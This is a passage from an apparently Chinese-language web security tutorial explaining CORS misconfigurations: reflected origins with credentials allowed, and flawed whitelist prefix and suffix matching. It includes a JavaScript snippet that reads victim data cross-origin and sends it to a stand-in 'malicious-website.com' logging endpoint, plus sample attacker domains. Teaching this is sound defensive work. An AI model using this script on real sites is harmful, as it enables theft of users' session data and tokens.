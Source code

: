响应头表明允许从请求域进行访问，并且跨域请求可以包括 cookies（`Access-Control-Allow-Credentials: true`），因此浏览器将会在会话中进行处理。

由于应用程序在 `Access-Control-Allow-Origin` 头中直接返回了请求域，这意味着任何域都可以访问资源。如果响应中包含了任何敏感信息，如 API key 或者 CSRF token 则都可以被获取，你可以在你的网站上放置以下脚本进行检索：
```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='//malicious-website.com/log?key='+this.responseText;
};
```


### Origin 处理漏洞

某些应用程序使用白名单机制来实现可信来源的访问允许。当收到 CORS 请求时，将请求头中的 origin 与白名单进行比较，如果在白名单中，则在 `Access-Control-Allow-Origin` 头中返回请求的 origin 以允许其跨域访问。例如，应用程序收到了如下的请求：
```
GET /data HTTP/1.1
Host: normal-website.com
...
Origin: https://innocent-website.com
```

应用程序检查白名单列表，如果 origin 在表中，则响应：
```
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com
```

在实现 CORS origin 白名单时很可能会犯一些失误。某个组织决定允许从其所有子域（包括尚未存在的未来子域）进行访问。应用程序允许从其他组织的域（包括其子域）进行访问。这些规则通常通过匹配 URL 前缀或后缀，或使用正则表达式来实现。实现中的任何失误都可能导致访问权限被授予意外的外部域。

例如，假设应用程序允许以下结尾的所有域的访问权限：
```
normal-website.com
```
攻击者则可以通过注册以下域来获得访问权限（结尾匹配）：
```
hackersnormal-website.com
```

或者应用程序允许以下开头的所有域的访问权限：
```
normal-website.com
```
攻击者则可以使用以下域获得访问权限（开头匹配）：
```
normal-website.com.evil-user.net
```


### Origin 白名单允许 null 值
